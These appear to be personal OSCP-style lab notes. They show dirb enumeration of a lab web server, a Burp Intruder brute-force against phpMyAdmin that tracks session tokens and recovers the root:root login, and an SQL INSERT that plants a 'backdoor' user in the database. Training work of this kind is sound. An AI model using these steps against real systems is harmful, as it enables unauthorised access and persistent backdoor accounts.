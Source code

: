 9.4.1.3

# 9.4.1.3
## 9.4.1.3.1. Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

Start Apache and MySQL on the Windows client
![c761dfef746c62bdee13871041bd2c9f.png](../../_resources/3d8a87f0c7514be7b1c65ffd0f6f9ca6.png)

Run dirb and note the /phpmyadmin directory
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ dirb http://192.168.214.10 -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 20 12:27:22 2020
URL_BASE: http://192.168.214.10/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.214.10/ ----
+ http://192.168.214.10/admin (CODE:401|SIZE:1293)                                                                   
+ http://192.168.214.10/Admin (CODE:401|SIZE:1293)                                                                   
+ http://192.168.214.10/ADMIN (CODE:401|SIZE:1293)                                                                   
+ http://192.168.214.10/admin.php (CODE:302|SIZE:1604)                                                               
+ http://192.168.214.10/aux (CODE:403|SIZE:1046)                                                                     
+ http://192.168.214.10/cgi-bin/ (CODE:403|SIZE:1060)                                                                
+ http://192.168.214.10/com1 (CODE:403|SIZE:1046)                                                                    
+ http://192.168.214.10/com2 (CODE:403|SIZE:1046)                                                                    
+ http://192.168.214.10/com3 (CODE:403|SIZE:1046)                                                                    
+ http://192.168.214.10/con (CODE:403|SIZE:1046)                                                                     
==> DIRECTORY: http://192.168.214.10/css/                                                                            
==> DIRECTORY: http://192.168.214.10/dashboard/                                                                      
+ http://192.168.214.10/examples (CODE:503|SIZE:1060)                                                                
+ http://192.168.214.10/favicon.ico (CODE:200|SIZE:30894)                                                            
==> DIRECTORY: http://192.168.214.10/form/                                                                           
==> DIRECTORY: http://192.168.214.10/img/                                                                            
+ http://192.168.214.10/index.php (CODE:200|SIZE:1285)                                                                
+ http://192.168.214.10/licenses (CODE:403|SIZE:1205)                                                                 
+ http://192.168.214.10/lpt1 (CODE:403|SIZE:1046)                                                                     
+ http://192.168.214.10/lpt2 (CODE:403|SIZE:1046)                                                                     
+ http://192.168.214.10/nul (CODE:403|SIZE:1046)                                                                     
==> DIRECTORY: http://192.168.214.10/phpmyadmin/                                                                     
+ http://192.168.214.10/prn (CODE:403|SIZE:1046)                                                                     
+ http://192.168.214.10/robots.txt (CODE:200|SIZE:79)                                                                
+ http://192.168.214.10/server-info (CODE:403|SIZE:1205)                                                             
+ http://192.168.214.10/server-status (CODE:403|SIZE:1205)                                                           
+ http://192.168.214.10/webalizer (CODE:403|SIZE:1046)                                                               
                                                                                                                     
-----------------
END_TIME: Sun Sep 20 12:29:57 2020
DOWNLOADED: 4612 - FOUND: 22

```

Try logging in using root:''. It fails.
![e52254d9783921864c8f28829d0b4f82.png](../../_resources/70e15065d8824c5db871c9324f7c4b27.png)


Open BurpSuite, and turn on Foxy Proxy. Reload the /phpmyadmin page and log in with any credential
![7ad72fe272f8ea5d3590f502adc57c00.png](../../_resources/e33f2996462e47fbb0280bb8f1f3017e.png)

Open Burp -> Proxy tab -> HTTP history -> find the POST request for /phpmyadmin -> Right-click and Send to Intruder
![ee6db7220feeb77e314c52cafa239319.png](../../_resources/23f6180aeda1455db8b10dc30e9dab59.png)

Intruder tab -> Target (verify the target's IP is 192.168.214.10)
![8ad4ed062d6d5d03838f268565c2d906.png](../../_resources/ec222fc543fb4d1c93ea0086e16962f8.png)

Intruder -> Positions tab -> Set Attack type to Pitchfork and press the button to 'Clear all markers'
![e120effbc26d5ed9affce77e70593504.png](../../_resources/a2acc6df630f4003859dfa2519af86f5.png)

Insert a new payload marker for the following (highlighted in green:
phpMyAdmin, set_session, pma_password, token
![2ab672e8c3177e18556e3e0a61cbb892.png](../../_resources/1704dc5381944b1298676eb3a5e433a2.png)

Intruder -> Options -> Grep - Extract -> Highlight the **set_session** value then press OK
![e4248a9284807ed27db593c795120d63.png](../../_resources/9ae96a92531c482daba5d8bde09ccdc9.png)

Intruder -> Options -> Grep - Extract -> Highlight the **token** value then press OK
![96ca8c0120d92dbf9c1a3c868a72d7ec.png](../../_resources/af0eb97069d541bba085801a81f6d99b.png)

Here are there 2 grep extracts
![fe1f772b1bcb80b5d9ff4346f7e1d781.png](../../_resources/ea685654eccc4a99b824b5c70d454db3.png)

Intruder -> Payloads -> Set Payload 1 to Recursive Grep -> `From [_session" value="] to ["/>Log]`
![7b24df2f7aae75794076325119c6014c.png](../../_resources/46e40d6e5b0e41929582f848190fc90f.png)

Intruder -> Payloads -> Set Payload 2 to Recursive Grep -> `From [_session" value="] to ["/>Log]`
![eeb3fc355dcb9bf3a7e7822fbecbf49d.png](../../_resources/05a1326f95e94e9f8e88ff1ef3801d63.png)

Intruder -> Payloads -> set Payload 3 -> Simple list -> manually enter the payload: password, admin, p@ssword, root, taco
![ddb6b5554bab6e938b3a745ddab4df90.png](../../_resources/99cc0d065b0a4883941a3717662dc21d.png)

Intruder -> Payloads -> set Payload 4 -> Recursive Grep -> `From [.php" /><input type="hidden" name="token" value="] to ["/></fieldset>]`
![a8d13c85d7a6d6433121733b369c5cd4.png](../../_resources/3c51336e781a4a5eae90da459005aa30.png)

Pres the Start attack button. Press OK if the following error message occurs
![cc093f0f582ff64d29a26199d7065c4f.png](../../_resources/d3e5f2aa272843d1919841d5bd9fe0dd.png)

View results. Password 'root' has status code 302 which is different from all else.
![27e1e6e2cd962b505a101bbfb05c8d00.png](../../_resources/3fd0efc1f2434e059bcab1929f1f8aab.png)

Log in as root:root
![2e240e2eee648a57c3fd39c6cf95bdd0.png](../../_resources/4a98c9ed73bf47998140d27ab0a945a1.png)

We're logged in!
![2fd5996f091467de90575885a30c2eb0.png](../../_resources/b2ef05da62c248879714701b6fbd74a7.png)



## 9.4.1.3.2. Insert a new user into the "users" table.

SQL tab -> enter the command `SELECT * from webppdb.users;` -> Press 'Go'
![83d12a82c6169f7fc4b0db6abe4d84d8.png](../../_resources/8c3852f48dc545b7b6f74d8baa532d18.png)

The result of the query. Notice we see plaintext passwords
![2c109646198cb546a41c2af0de792c8c.png](../../_resources/3a246cec206b4044816eeddcd0f7ba04.png)

Click 'Show query box' -> SQL tab -> enter into the query box: `INSERT into webappdb.users(password, username) VALUES ("backdoor","backdoor");` -> Press Go
![935212154b3af76d2e0eca7d2ab88585.png](../../_resources/75fb44a5b36640c3bc2619e8961a4c05.png)

The result
![8b802583b248c1a0537c786c566b7ac2.png](../../_resources/74cfb76b5b134ddb8c16eaa3225d923c.png)

Click 'Show the query box' and type -> `select * from webappdb.users;` -> Press Go.
We confirmed we now have a new user: backdoor
![d4dd6e87ae8234a341c0dc05eed027c4.png](../../_resources/b6c45527a2e24433a38aed2d1f651065.png)

















